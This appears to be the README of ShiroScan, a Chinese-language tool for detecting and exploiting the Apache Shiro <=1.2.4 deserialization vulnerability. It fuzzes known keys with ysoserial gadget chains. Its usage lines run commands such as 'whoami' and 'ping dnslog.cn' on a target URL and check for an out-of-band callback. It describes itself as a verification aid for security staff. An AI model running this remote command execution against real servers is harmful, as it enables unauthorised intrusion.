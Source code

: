 # ShiroScan
Shiro&lt;=1.2.4反序列化，一键检测工具

    改动内容：1.新增4个利用链模块(CommonsCollections7-10)，已打包成ysoserial的jar包，请勿更换
    改动内容：2.增加多线程，虽模块增加但速度却提高300%

```
集成21个key进行fuzz
```

* 如果有帮助，请点个star哦，blog：http://www.svenbeast.com/post/tskRKJIPg/
* pip3 install -r requirments.txt     

* Usage：python3 shiro.py  url  command
* Usage：python3 shiro.py  http://url.com  whoami

* http://www.dnslog.cn/   验证推荐使用这个dnslog平台，速度比ceye.io要快很多
* 执行的命令带空格记得用""引起来

* usage：python3 shiro.py  http://url.com  "ping dnslog.cn"
* 11个模块全部跑一遍,然后去dnslog平台查看是否收到请求，不出来就GG，也可能是因为编码还不够多

* 请自行收集编码，在moule下的源代码中自行添加方法即可

* 为了脚本运行简单，多线程数量不是使用者传参控制，默认20线程，如需改动请到/moule/main.py第20行代码自行修改控制线程的参数
## 不推荐当做exp使用，效率问题
## 仅供安全人员验证,测试是否存在此漏洞

